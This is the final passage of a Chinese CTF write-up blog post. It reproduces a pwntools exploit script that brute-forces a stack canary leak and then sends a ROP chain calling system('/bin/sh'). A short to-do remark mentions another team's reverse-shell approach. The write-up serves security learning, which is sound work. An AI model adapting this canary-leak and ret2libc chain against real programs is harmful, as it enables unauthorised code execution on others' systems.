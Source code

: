 ```python

show(6)
stack_base=uu64()
lg("stack_base")
canary_addr=stack_base-0x78
lg("canary_addr")
i=-10
while True:
    edit(0, 0x130, p64(canary_addr+1+i*8)+b"\n")
    i=i+1
    edit(0, 0x130+8, p32(0x444)+b"\n")
    show(6)
    ru("Data: ")
    result=ru("\n")[:-1]
    if len(result)==8:
        break
canary=u64(result[:7].rjust(8,b"\x00"))
lg("canary")
#mydbg()
pop_rdi=0x0000000000027765+libc_base
binsh=libc_base+next(libc.search(b"/bin/sh"))
sys_addr=libc_base+libc.sym['system']
ret_addr=0x00000000000270e2 +libc_base
payload=b'\x00'*0x208+p64(canary)*3+p64(0)+p64(ret_addr)+p64(pop_rdi)+p64(binsh)+p64(sys_addr)+b"\n"
edit(0,0,payload)
p.interactive()
```

#### 待做

**Spirit战队**wp中采用了反弹shell 的做法，这里我还不太了解，后续再学习吧。https://mp.weixin.qq.com/s/PtM7i5bPU2I7h3wZ328JQQ 

---

> 作者: chuwei  
> URL: https://chuw3i.github.io/posts/2023-12%E6%9C%88%E6%AF%94%E8%B5%9Bwp%E5%A4%8D%E7%8E%B0/  


